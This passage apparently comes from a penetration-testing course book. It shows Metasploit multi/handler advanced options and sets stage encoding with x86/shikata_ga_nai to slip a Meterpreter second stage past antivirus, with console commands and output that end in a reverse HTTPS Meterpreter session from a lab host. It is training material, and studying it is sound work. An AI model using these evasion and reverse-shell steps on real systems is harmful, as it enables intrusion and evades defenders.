  If we discover a target running an older operating system like Windows 7 with an unpatched browser, this type of vector may provide the opening we need .
22.3.7 Advanced Features and Transports

 which we can display with the show advanced command. Let’s investigate a few of the more interesting options.

msf5 exploit(multi/handler) > show advanced

Module advanced options (exploit/multi/handler):

Name Current Setting Required Description
---- --------------- -------- -----------
ContextInformationFile no The information file that contains
DisablePayloadHandler false no Disable the handler code for the se
EnableContextEncoding false no Use transient context when encoding
ExitOnSession true yes Return from the exploit after a ses
ListenerTimeout 0 no The maximum number of seconds to wa
VERBOSE false no Enable detailed status messages
WORKSPACE no Specify the workspace for this modu
WfsDelay 0 no Additional delay when waiting for a
Payload advanced options (windows/meterpreter/reverse_https):
Name Current Setting Required Description
---- --------------- -------- -----------
AutoLoadStdapi true yes Automatically load the Stdapi extension
AutoRunScript no A script to run automatically on session
AutoSystemInfo true yes Automatically capture system information
AutoUnhookProcess false yes Automatically load the unhook extension
...

 let’s take a look at some advanced encoding options.

 In previous examples, we chose to encode the first stage of our shellcode that we placed into the exploit. 
 
 Since the second stage ofthe Meterpreter payload is much larger and contains more potential signatures, it could potentially be flagged by various antivirus solutions, so we may opt to encode the second stage as well.
 
 We could use EnableStageEncoding together with StageEncoder to encode the second stage and possibly bypass detection.
 
  To do this, we set EnableStageEncoding to “true” and set StageEncoderto our desired encoder, in this case, “x86/shikata_ga_nai”: 
  
  msf5 exploit(multi/handler) > set EnableStageEncoding true
EnableStageEncoding => true

msf5 exploit(multi/handler) > set StageEncoder x86/shikata_ga_nai
StageEncoder => x86/shikata_ga_nai

msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 2.
[*] Started HTTPS reverse handler on https://10.11.0.4:443

msf5 exploit(multi/handler) >
[*] https://10.11.0.4:443 handling request from 10.11.0.22; Encoded stage with x86/shi
kata_ga_nai
[*] https://10.11.0.4:443 handling request from 10.11.0.22; Staging x86 payload (18085
[*] Meterpreter session 4 opened (10.11.0.4:443 -> 10.11.0.22:51270)
